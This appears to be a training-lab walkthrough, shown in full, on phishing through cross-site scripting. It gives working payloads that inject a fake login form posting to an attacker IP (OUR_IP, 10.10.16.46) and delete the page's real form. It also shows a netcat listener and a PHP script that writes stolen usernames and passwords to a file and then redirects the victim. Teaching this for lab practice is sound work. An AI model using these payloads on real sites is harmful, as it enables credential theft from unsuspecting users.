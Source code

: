 ```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

In the above HTML code, `OUR_IP` is the IP of our VM, which we can find with the (`ip a`) command under `tun0`.

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

## Cleaning Up

To do so, we can use the JavaScript function `document.getElementById().remove()`

As we see in both the source code and the hover text, the `url` form has the id `urlform`:

```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

So, we can now use this id with the `remove()` function to remove the URL form:

```javascript
document.getElementById('urlform').remove();
```

```javascript
document.write('<h3>Please login to continue</h3><form action=http://10.10.16.46><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form> <!--');document.getElementById('urlform').remove()
```

## Credential Stealing

```shell
 sudo nc -lvnp 80
```
So, we can use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections. In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.


```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
```
